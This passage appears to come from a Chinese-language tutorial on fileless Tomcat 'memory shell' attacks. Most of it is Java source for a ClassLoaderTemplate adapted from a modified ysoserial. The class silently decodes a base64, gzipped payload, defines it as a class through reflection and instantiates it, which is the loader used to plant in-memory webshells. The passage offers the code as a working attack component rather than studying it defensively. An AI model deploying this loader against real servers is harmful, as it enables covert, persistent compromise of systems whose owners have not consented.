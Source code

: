然后在doFilter()函数里完成逻辑就行

![image.png](Tomcat 内存马无文件攻击.assets/2023_05_19_10_36_43_xnj17TJv.png)



### 测试
在这里使用[Y4er——ysoserial](https://github.com/Y4er/ysoserial)大哥修改过的ysoserial，在其中我提取ClassLoaderTemplate，在项目中加入该jar包
```java
package com.myproject.temp;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.lang.reflect.Method;
import java.net.URL;
import java.net.URLClassLoader;
import java.util.zip.GZIPInputStream;

public class ClassLoaderTemplate {
    static String b64;

    static {
        try {
            GZIPInputStream gzipInputStream = new GZIPInputStream(new ByteArrayInputStream(base64Decode(b64)));
            ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
            byte[] bs = new byte[4096];
            int read;
            while ((read = gzipInputStream.read(bs)) != -1) {
                byteArrayOutputStream.write(bs, 0, read);
            }
            byte[] bytes = byteArrayOutputStream.toByteArray();
            ClassLoader classLoader = new URLClassLoader(new URL[0], Thread.currentThread().getContextClassLoader());
            Method defineClass = classLoader.getClass().getSuperclass().getSuperclass().getDeclaredMethod("defineClass", byte[].class, int.class, int.class);
            defineClass.setAccessible(true);
            Class invoke = (Class) defineClass.invoke(classLoader, bytes, 0, bytes.length);
            invoke.newInstance();
        } catch (Exception e) {
            // e.printStackTrace();
        }
    }

    public static byte[] base64Decode(String bs) throws Exception {
        Class base64;
        byte[] value = null;
        try {
            base64 = Class.forName("java.util.Base64");
            Object decoder = base64.getMethod("getDecoder", null).invoke(base64, null);
            value = (byte[]) decoder.getClass().getMethod("decode", new Class[]{String.class}).invoke(decoder, new Object[]{bs});
        } catch (Exception e) {
            try {
                base64 = Class.forName("sun.misc.BASE64Decoder");
                Object decoder = base64.newInstance();
                value = (byte[]) decoder.getClass().getMethod("decodeBuffer", new Class[]{String.class}).invoke(decoder, new Object[]{bs});
            } catch (Exception e2) {
            }
        }
        return value;
    }
```